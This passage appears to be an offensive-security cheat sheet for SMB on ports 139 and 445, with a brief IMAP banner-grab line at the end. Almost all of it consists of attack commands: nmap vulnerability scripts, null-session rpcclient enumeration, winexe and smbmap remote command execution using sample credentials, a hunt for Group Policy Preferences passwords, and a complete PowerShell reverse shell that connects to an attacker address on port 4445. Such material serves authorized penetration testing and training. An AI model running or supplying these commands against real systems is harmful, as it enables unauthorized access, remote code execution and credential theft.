 ```bash

nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 $IP

nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 $IP

# Mount smb volume linux
mount -t cifs -o username=user,password=password //$IP/share /mnt/share

# rpcclient commands
rpcclient -U "" $IP
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall

# Run cmd over smb from linux
winexe -U username //$IP "cmd.exe" --system

# smbmap commands
    #Enum
smbmap.py -H $IP -u administrator -p asdf1234
    #RCE
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H $IP
    # Drive Listing
smbmap.py -H $IP -u username -p 'P@$$w0rd1234!' -L
    # Reverse Shell
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H $IP -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"'

# Check
\Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml # look for user&pass "gpp-decrypt "

# changing smb password with smbpasswd
smbpasswd -r $IP -U <username>

```
### Port 143 / 993- IMAP
```bash
# Banner grabbing
nc -nv $IP 143
```